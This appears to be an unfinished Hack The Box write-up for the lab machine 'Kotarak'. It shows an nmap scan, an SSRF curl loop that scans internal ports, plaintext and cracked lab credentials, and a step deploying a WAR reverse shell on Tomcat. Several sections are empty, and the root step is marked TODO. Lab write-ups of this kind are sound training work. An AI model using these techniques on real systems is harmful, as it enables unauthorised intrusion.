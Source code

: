 # Kotarak (`10.10.10.55`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `kotarak.htb` to `10.10.10.55`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports kotarak.htb

```

The current attack surface is:

- Port 8080: Apache Tomcat 8.5.5

### Enumerate Port 60000

`$ for i in $(seq 0 1000); do echo "$i: "; curl -s http://kotarak.htb:60000/url.php?path=localhost:$i ; done`

![](img/2020-09-14-04-25-04.png)

I find credentials for `Tomcat`: `admin:3@g01PdhB!`.

Log in on port 8080.

![](img/2020-09-14-04-26-06.png)

Upload and deploy a WAR reverse shell and you've got your shell.

![](img/2020-09-14-04-27-47.png)

![](img/2020-09-14-04-27-56.png)

## Privilege Escalation to `atanas`

![](img/2020-09-14-06-11-14.png)

![](img/2020-09-14-06-38-40.png)

![](img/2020-09-14-06-38-51.png)

![](img/2020-09-14-06-39-07.png)

![](img/2020-09-14-06-41-23.png)

`Administrator:f16tomcat!` is a cracked set of credentials, but I'm really interested in the `atanas` creds. `john` stumbled with cracking them, but `Crackstation` takes care of it easily.

![](img/2020-09-14-06-43-02.png)

Turns out, I really did care about the `Administrator` one.

![](img/2020-09-14-06-45-49.png)

## Privilege Escalation to `root`

![](img/2020-09-14-20-43-14.png)

TODO: Root it with `$ searchsploit -m linux/remote/40064.txt` but I can't get it to work. So we're moving on.

## Proof

> `> type "C:\Users\Administrator\Desktop\proof.txt" && whoami && ipconfig`
> `> type "C:\Documents and Settings\Administrator\Desktop\proof.txt" && whoami && ipconfig`
> `$ cat /root/proof.txt && whoami && /sbin/ifconfig`

## Post Exploitation

## Clean Up

## Remediation

In order to remediate these issues, I suggest:

-
